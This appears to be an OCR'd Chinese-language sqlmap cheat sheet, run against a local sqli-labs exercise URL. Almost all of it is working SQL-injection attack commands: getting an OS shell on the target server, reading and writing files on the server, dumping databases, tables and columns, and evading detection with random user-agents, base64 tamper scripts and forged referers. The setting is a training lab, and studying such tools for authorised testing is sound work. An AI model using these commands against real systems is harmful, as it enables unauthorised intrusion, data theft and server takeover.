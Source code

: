 ```shell
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1 " --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql Firebird, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, 　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　SAP MaxDB, SQLite, Sybase
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="127.0.0.1:8080"    #指定代理
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
```



```powershell
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #刷新session  
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段
--keep-alive          #保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received.
```



```powershell
-u     指定目标URL (可以是http协议也可以是https协议)
-d     连接数据库
--dbs  列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入

